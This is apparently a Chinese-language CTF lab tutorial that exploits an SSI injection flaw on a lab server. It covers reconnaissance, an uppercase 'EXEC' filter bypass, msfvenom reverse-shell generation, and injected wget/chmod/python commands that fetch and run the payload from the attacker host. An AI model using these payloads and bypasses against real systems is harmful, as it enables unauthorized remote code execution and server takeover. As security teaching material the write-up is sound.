










# 网络安全入门到精通：P36：CTF夺旗-SSI注入

在本节课中，我们将要学习一种名为SSI注入的攻击技术。我们将了解其原理，并通过一个完整的实验，从信息收集开始，逐步利用SSI注入漏洞，最终获取目标服务器的权限。

## 概述：什么是SSI注入？

上一节我们介绍了CTF比赛的基本概念，本节中我们来看看一种具体的Web漏洞——SSI注入。

SSI代表Server Side Include，即服务端包含。SSI技术的出现是为了赋予HTML静态页面动态效果。在动态页面技术普及之前，SSI和CGI被广泛应用于HTML静态页面，通过执行系统命令并将结果返回给页面，实现交互效果，模拟出动态页面的功能。

如果在网站目录中发现 `.shtml`、`.stm` 或 `.shtm` 后缀的文件，通常表示该网站使用了SSI技术。如果网站对SSI的输入没有进行严格或充分的过滤，就会造成SSI注入漏洞，导致攻击者输入的指令被系统执行并返回结果。

## 实验环境搭建

在开始实战前，我们需要明确实验环境。

*   **攻击机**：Kali Linux，IP地址为 `192.168.1.103`。
*   **靶机**：一台Linux服务器，IP地址为 `192.168.1.106`。

我们的最终目标是获取靶机上存放的flag值。为此，我们首先需要获得对靶机的访问权限。

## 第一步：信息探测

要发起攻击，首先需要了解目标。信息探测是我们的第一步。

以下是信息探测的常用步骤：





首先，使用Nmap扫描靶机开放的服务及其版本信息。命令如下：
```bash
nmap -sV 192.168.1.106
```
这条命令会向目标发送探测数据包，并根据返回信息分析并列出开放的服务。



除了服务扫描，我们还可以使用Nmap进行更全面的扫描，获取操作系统等信息。
```bash
nmap -A -v -T4 192.168.1.106
```
参数说明：
*   `-A`：启用操作系统检测、版本检测、脚本扫描和路由跟踪。
*   `-v`：显示详细输出。
*   `-T4`：指定扫描速度，T4为较快速度。

扫描结果显示，靶机只开放了80端口，运行着HTTP服务。

接下来，我们使用 `nikto` 工具对HTTP服务进行深入的漏洞扫描。
```bash
nikto -h http://192.168.1.106
```
`nikto` 会检查Web服务器是否存在多种已知的安全问题。



此外，我们使用 `dirb` 工具来探测网站可能存在的隐藏目录和文件。
```bash
dirb http://192.168.1.106
```



## 第二步：信息分析与漏洞发现

在探测结束后，我们需要对结果进行分析，寻找可利用的入口点。



对 `nikto` 的扫描结果分析后，我们发现了一些关键信息：
*   服务器运行 Ubuntu 系统，使用 Apache 2.4.18。
*   发现了一些敏感的目录和文件，如 `/cgi-bin/`、`/robots.txt`、`index.shtml` 等。

对 `dirb` 的扫描结果分析后，我们确认了 `/cgi-bin/`、`/robots.txt`、`/ssi/` 等目录的存在。

我们开始逐一访问这些发现的敏感路径：
1.  访问 `/cgi-bin/` 返回403禁止访问。
2.  访问 `/robots.txt`，发现其禁止爬虫访问某些目录（如 `/backup/`）。
3.  访问 `/backup/` 目录，成功下载了 `index.php.bak` 和 `old.config.bak` 两个备份文件。分析备份文件后，我们获得了网站根目录的路径，但未发现直接漏洞。
4.  访问 `/ssi/` 目录，发现一个页面似乎能够执行系统命令并显示结果（如文件列表），这强烈暗示存在命令注入漏洞。



## 第三步：漏洞利用 - SSI注入



根据在 `/ssi/` 页面的发现以及 `index.shtml` 文件的存在，我们判断该站点存在SSI注入漏洞。

我们在网站中寻找用户输入点。在相关页面发现一个表单，其提示信息格式类似于：
```
<!--#exec cmd="ls" -->
```
这正是一个SSI指令，用于执行 `ls` 命令。我们尝试在输入框中提交该指令，但页面没有反应。查看页面源代码，发现 `exec` 关键字被过滤了。

这里我们使用一个简单的绕过技巧：将 `exec` 改为大写 `EXEC`。
提交 `<!--#EXEC cmd="ls" -->` 后，成功看到了当前目录的文件列表，证实漏洞存在且可被利用。

为了获得一个反向Shell连接，我们需要让靶机从我们的攻击机下载一个恶意脚本并执行。

首先，在攻击机（Kali）上使用 `msfvenom` 生成一个Python反向Shell负载。
```bash
msfvenom -p python/meterpreter/reverse_tcp LHOST=192.168.1.103 LPORT=4444 -f raw > /root/Desktop/shell.py
```
参数说明：
*   `-p python/meterpreter/reverse_tcp`：指定生成Python的Meterpreter反向TCP负载。
*   `LHOST=192.168.1.103`：指定监听主机的IP（攻击机IP）。
*   `LPORT=4444`：指定监听端口。
*   `-f raw`：指定输出格式为原始代码。
*   `> /root/Desktop/shell.py`：将生成的代码保存到桌面文件。

接着，启动Apache服务，并将生成的 `shell.py` 文件移动到Web根目录，以便靶机下载。
```bash
cp /root/Desktop/shell.py /var/www/html/
systemctl start apache2
```

然后，在攻击机上启动Metasploit框架，设置监听。
```msfconsole
use exploit/multi/handler
set payload python/meterpreter/reverse_tcp
set LHOST 192.168.1.103
set LPORT 4444
run
```

现在，回到靶场的SSI注入点，提交命令让靶机下载并执行我们的Shell脚本。注入的命令如下：
```
<!--#EXEC cmd="wget http://192.168.1.103/shell.py -O /tmp/s.py" -->
<!--#EXEC cmd="chmod +x /tmp/s.py" -->
<!--#EXEC cmd="python /tmp/s.py" -->
```
提交后，观察Metasploit控制台，成功收到了来自靶机的反向Shell连接。



## 第四步：权限提升与获取Flag

成功获得初始Shell（Meterpreter会话）后，我们进行后续操作。

首先，获取系统信息。
```bash
sysinfo
```
然后，为了获得一个更友好的交互式Shell，我们使用Python生成一个伪终端。
```bash
python -c 'import pty; pty.spawn("/bin/bash")'
```
现在，我们拥有了一个功能完整的Bash Shell。检查当前用户权限。
```bash
id
```
如果当前用户不是root，在CTF环境中，flag通常存放在根目录或当前用户的家目录下。我们尝试寻找flag文件。
```bash
find / -name *flag* 2>/dev/null
cat /flag.txt
# 或
cat /root/flag.txt
```
最终，成功读取flag文件内容，完成挑战。

## 总结与绕过技巧

本节课中我们一起学习了SSI注入漏洞的完整利用流程。

1.  **信息收集**：使用Nmap、Nikto、Dirb等工具探测目标。
2.  **漏洞发现**：通过分析扫描结果，寻找敏感文件和疑似注入点。
3.  **漏洞验证与利用**：构造SSI注入指令，利用大小写绕过（`EXEC`）等技巧绕过简单过滤，执行系统命令。
4.  **建立控制**：让目标服务器下载并执行反向Shell负载，从而获得远程控制权限。
5.  **获取目标**：在文件系统中寻找并读取flag。

在实际的CTF比赛或安全评估中，防御措施可能更复杂。除了大小写绕过，还可能需要的绕过技巧包括：
*   使用编码（如URL编码、Base64编码）。
*   利用字符串拼接、通配符等。
*   寻找未过滤的替代指令或标签。



理解漏洞原理并灵活运用各种绕过方法，是成功利用此类注入漏洞的关键。